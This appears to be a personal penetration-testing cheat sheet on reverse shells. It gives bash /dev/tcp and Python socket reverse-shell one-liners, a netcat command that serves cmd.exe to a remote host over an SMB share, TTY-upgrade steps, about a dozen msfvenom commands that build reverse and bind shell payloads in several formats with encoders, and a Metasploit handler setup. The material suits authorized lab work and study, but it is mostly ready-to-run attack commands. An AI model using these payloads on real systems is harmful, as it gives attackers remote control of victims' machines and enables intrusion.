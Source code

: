 # Shells

## Reverse shells
**Links**
https://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/
https://github.com/Tib3rius/rsg/blob/master/shells.txt
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
https://github.com/swisskyrepo/PayloadsAllTheThings
https://cyb3rdan.com/2019/07/01/oscp/
https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

## Shells
`/bin/bash -i >& /dev/tcp/10.10.14.20/4444 0>&1`
`bash -i >& /dev/tcp/192.168.32.31/4444 0>&1`
`bash -c 'bash -i >& /dev/tcp/10.10.14.20/4444 0>&1'`
`bash -c help`' for more information about shell builtin commands.
`/bin/sh -i`
`/bin/bash -i`
`echo os.system('/bin/bash')`

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.0.126",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
 `-c` cmd : program passed in as string (terminates option list)

## Getting a shell in limited interpreters:
system("start cmd.exe /k $cmd")
Second shell
After getting a shell, get a second shell with "start" in case the first one bugs up/hangs/crashes (assuming running SMB server): 
victim > start \\10.10.12.84\share\nc.exe -nv -e cmd.exe 10.10.12.84 80



<img src="full shell.png" alt="full shell" style="zoom:48%;" />



## Upgrade to full Shell

``` python
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
$ stty raw -echo
$ fg and then enter, wait a sec, then reset enter
export TERM=linux
```


## Msfvenom

https://www.offensive-security.com/metasploit-unleashed/Msfvenom/
https://netsec.ws/?p=331

`msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.56 LPORT=8888 -f raw > shell.jsp`
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf`
`msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.11.0.126 LPORT=53 -f elf -o shell.elf`
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe`

`msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.126 LPORT=4444 -f exe -o shell_reverse.exe`
`msfvenom -a x86 --platform Windows -p windows/shell/bind_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 -f python`

`msfvenom -p php/reverse_php LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php`
`msfvenom -p php/meterpreter/reverse_tcp LHOST=<attacker_ip> -o meterpreter.php`
`msfvenom -p generic/shell_reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f php -o shell.php`
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=attackerIP LPORT=attackerPort -f aspx > shell.aspx`
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=attackerIP LPORT=attackerPort -f asp > shell.asp`
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.0.126 LPORT=4444 -f war > shell.war`

`-p` = payload
`-f` = output format
`-o` = out
`-a` = architecture
`-e` = encoder
`-i` = iterations of encoder
`-b` = bad characters to avoid \x00\xff
`--platform` = platform for the payload



## Multi/Handler

```use exploit/multi/handler
set payload ...
set LPORT
set LHOST
exploit
```

**Create small shellcode**
`msfvenom -p windows/shell_reverse_tcp -a x86 -f python –platform windows LHOST=<ip> LPORT=443 -b “\x00” EXITFUNC=thread –smallest -e x86/fnstenv_mov`